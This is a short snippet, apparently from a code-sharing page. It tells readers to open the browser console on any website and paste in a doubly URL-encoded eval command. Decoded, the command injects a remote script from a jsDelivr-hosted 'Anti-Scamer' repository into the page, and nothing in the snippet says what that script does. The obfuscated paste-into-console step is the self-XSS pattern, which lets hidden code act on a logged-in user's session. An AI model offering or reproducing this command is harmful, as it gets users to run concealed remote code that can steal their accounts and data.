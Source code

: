 # to use this, on any website press CTRL + SHIFT + I and past the code below in console

eval(decodeURIComponent('%76%61%72%20%73%63%72%69%70%74%20%3d%20%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%37%27%29%29%29%3b%20%73%63%72%69%70%74%2e%73%72%63%20%3d%20%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%33%25%36%34%25%36%65%25%32%65%25%36%61%25%37%33%25%36%34%25%36%35%25%36%63%25%36%39%25%37%36%25%37%32%25%32%65%25%36%65%25%36%35%25%37%34%25%32%66%25%36%37%25%36%38%25%32%66%25%34%31%25%36%65%25%37%34%25%36%39%25%32%64%25%35%33%25%36%33%25%36%31%25%36%64%25%36%35%25%37%32%25%32%66%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%36%33%25%36%64%25%36%34%25%32%65%25%36%61%25%37%33%25%32%37%27%29%29%3b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%36%38%25%36%35%25%36%31%25%36%34%25%32%37%27%29%29%29%5b%30%5d%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%73%63%72%69%70%74%29%3b%20'));
